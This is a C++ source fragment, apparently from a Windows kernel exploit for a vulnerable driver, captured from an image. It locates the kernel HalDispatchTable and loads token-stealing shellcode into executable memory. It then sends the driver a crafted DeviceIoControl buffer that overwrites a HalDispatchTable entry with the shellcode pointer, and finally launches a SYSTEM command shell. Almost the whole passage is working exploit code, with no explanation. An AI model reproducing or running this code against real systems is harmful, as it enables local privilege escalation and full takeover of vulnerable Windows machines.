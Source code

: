 ```cpp
                    HMODULE ntkrnlpaHandle = LoadLibraryExW(szDriver, 0, 0);
                    PVOID HALUserLand = (PVOID)GetProcAddress(ntkrnlpaHandle, "HalDispatchTable");
                    printf("[+] HalDispatchTable userland: %p \n", HALUserLand);
                    printf("\n\nHALUserLand: %p\nntkrnlpaHandle: %p\ndrivers[i]: %p\n\n", HALUserLand, &ntkrnlpaHandle, drivers[i]);
                    PVOID HalDispatchTable = (PVOID)((ULONG)drivers[i] - (ULONG)ntkrnlpaHandle + (ULONG)HALUserLand + 4);
                    //PVOID HalDispatchTable = HALUserLand – ntkrnlpaHandle + szDriver;

                    printf("[~] HalDispatchTable Kernel: %p\n", HalDispatchTable);
                    const char* shellcode = "\x60\x31\xC0\x64\x8B\x80\x24\x01\x00\x00\x8B\x40\x50\x89\xC1\xBA\x04\x00\x00\x00\x8B\x80\xB8\x00\x00\x00\x2D\xB8\x00\x00\x00\x39\x90\xB4\x00\x00\x00\x75\xED\x8B\x90\xF8\x00\x00\x00\x89\x91\xF8\x00\x00\x00\x61\x31\xC0\x5D\xC2\x08\x00";
                    LPVOID shellc_ptr = VirtualAlloc(0, 58, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    if (shellc_ptr)
                        memcpy(shellc_ptr, shellcode, 58);

                    printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
                    HANDLE hDevice = CreateFileA(kDevName,
                        GENERIC_READ | GENERIC_WRITE,
                        0,
                        NULL,
                        OPEN_EXISTING,
                        0,
                        NULL
                    );
                    
                    if (hDevice == INVALID_HANDLE_VALUE) {
                        printf("[-] Error - dailed to get file handle!\n");
                        system("pause");
                        return -1;
                    }
                    printf("[+] Successfully obtained a handle to the driver\n");

                    char poc[113] = "AAAABBBB222233334444555566667777888899990000zzzzxxxxccccvvvvbbbbnnnnmmmmaaaassssddddffffgggghhhhjjjjkkkkllllpppp";
                    //printf("%d", sizeof(poc));
                    DWORD bytesRetn;

                    LPVOID *var1 = &shellc_ptr;

                    poc[0] = ((unsigned char*)&var1)[0];
                    poc[1] = ((unsigned char*)&var1)[1];
                    poc[2] = ((unsigned char*)&var1)[2];
                    poc[3] = ((unsigned char*)&var1)[3];

                    poc[4] = ((unsigned char*)(&HalDispatchTable))[0];
                    poc[5] = ((unsigned char*)(&HalDispatchTable))[1];
                    poc[6] = ((unsigned char*)(&HalDispatchTable))[2];
                    poc[7] = ((unsigned char*)(&HalDispatchTable))[3];

                    //memcpy((void *) &poc[0], HalDispatchTable, 0x4);
                    //memcpy((void *) &poc[4], &shellc_ptr, 0x4);

                    printf("[+] Starting interaction with the driver\n");
                    DeviceIoControl(hDevice, IO_CODE, (LPVOID)poc, 100, NULL, 0, &bytesRetn, NULL);
                    system("cmd.exe");
                    CloseHandle(hDevice);
                }
                //printf("Skipped!\n");
            }
        }
```